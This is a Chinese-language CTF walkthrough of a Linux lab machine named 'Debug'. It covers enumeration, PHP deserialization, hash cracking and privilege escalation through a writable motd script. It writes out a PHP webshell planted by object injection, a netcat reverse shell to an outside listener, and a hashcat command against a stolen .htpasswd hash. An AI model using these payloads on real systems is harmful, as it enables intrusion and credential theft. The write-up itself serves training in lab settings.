 # Debug

Linux机器CTF！您将了解枚举，查找隐藏的密码文件以及如何利用php反序列化！

---

## 端口扫描

循例，nmap

![在这里插入图片描述](https://img-blog.csdnimg.cn/cf0598e525d843498303ea8305bc4234.png)

## Web枚举

进到web是apache默认页面，直接开扫

![在这里插入图片描述](https://img-blog.csdnimg.cn/8c1096a898224893a93243f14e33104d.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/69a99f5b734547f3ae42601838557d4c.png)

由于题目告诉我们涉及php反序列化，那直接找php文件来看，这里下载index.php.bak

## PHP 反序列化

非常简单的反序列化

”所有php里面的值都可以使用函数 serialize () 来返回一个包含字节流的字符串来表示。. unserialize () 函数能够重新把字符串变回php原来的值。. 序列化一个对象将会保存对象的所有变量，但是不会保存对象的方法，只会保存类的名字。. 为了能够 unserialize () 一个对象，这个对象的类必须已经定义过。. 如果序列化类A的一个对象，将会返回一个跟类A相关，而且包含了对象所有变量值的字符串。. 如果要想在另外一个文件中反序列化一个对象，这个对象的类必须在反序列化之前定义“

```php
<?php

class FormSubmit {

public $form_file = 'message.txt';
public $message = '';

public function SaveMessage() {

$NameArea = $_GET['name']; 
$EmailArea = $_GET['email'];
$TextArea = $_GET['comments'];

	$this-> message = "Message From : " . $NameArea . " || From Email : " . $EmailArea . " || Comment : " . $TextArea . "\n";

}

public function __destruct() {

file_put_contents(__DIR__ . '/' . $this->form_file,$this->message,FILE_APPEND);
echo 'Your submission has been successfully saved!';

}

}

// Leaving this for now... only for debug purposes... do not touch!

$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();


?>
```

这里对debug参数进行反序列并执行函数

```php
$debug = $_GET['debug'] ?? '';
$messageDebug = unserialize($debug);

$application = new FormSubmit;
$application -> SaveMessage();
```

这里直接劫持form_file和message参数，然后重新序列化

```php
public $form_file = 'cmd.php';
public $message = '<?php @system($_GET["cmd"]);?>';
```

```php
$obj = new FormSubmit();

echo serialize($obj);
```

传过去：

![在这里插入图片描述](https://img-blog.csdnimg.cn/223c1998bb004e54bd4dd7f695dd9ac6.png)

开启nc监听，然后直接reverse shell

payload:

	mkfifo /tmp/f1;nc 10.14.39.48 8888 < /tmp/f1 | /bin/bash > /tmp/f1

![在这里插入图片描述](https://img-blog.csdnimg.cn/b4edef25681243cbb671c8e12132d589.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/a236a608ec34411e9ebe4bbb0895b0e0.png)

加固shell:

	python3 -c "import pty;pty.spawn('/bin/bash')"


## 横向移动

在home目录下有两个文件夹，但是无权访问

![在这里插入图片描述](https://img-blog.csdnimg.cn/6c95d1378e944888b3806870410f7081.png)

再看看服务账户的家目录下，看一下.htpasswd发现了james的凭据

![在这里插入图片描述](https://img-blog.csdnimg.cn/7d20d16278ee49a197f6e7ba3f4369a4.png)

这里可以使用hash-identifier查看类型然后再查看hashcat -h找找类型值

为了方便我这里使用haiti-hash，这个工具直接给出hashcat和john的对应类型值

![在这里插入图片描述](https://img-blog.csdnimg.cn/4601bd23f1804fa7888f242c2749d474.png)

hashcat爆破：

	hashcat -a 0 -m 1600 ./hash /usr/share/wordlists/rockyou.txt

![在这里插入图片描述](https://img-blog.csdnimg.cn/e9f5f990897e4fd599ecce2e2020b342.png)

直接登录james的ssh

![在这里插入图片描述](https://img-blog.csdnimg.cn/b824ad7cd5a94f46bbb9afd9b2872314.png)

## 权限提升

查看.bash_history

![在这里插入图片描述](https://img-blog.csdnimg.cn/d9a9d94a3daa48fe99b9c3b4c1dc073c.png)

发现该目录下的文件james组有权修改，这里可以执行命令

![在这里插入图片描述](https://img-blog.csdnimg.cn/7584cd192177462a85c2932fdfaa74ae.png)

修改00-header

![在这里插入图片描述](https://img-blog.csdnimg.cn/84a02a1e4db9441987764f0e09110ac2.png)

重新登录james的ssh

![在这里插入图片描述](https://img-blog.csdnimg.cn/7380c40a6f47434aa33f80e17a54b1be.png)

getroot
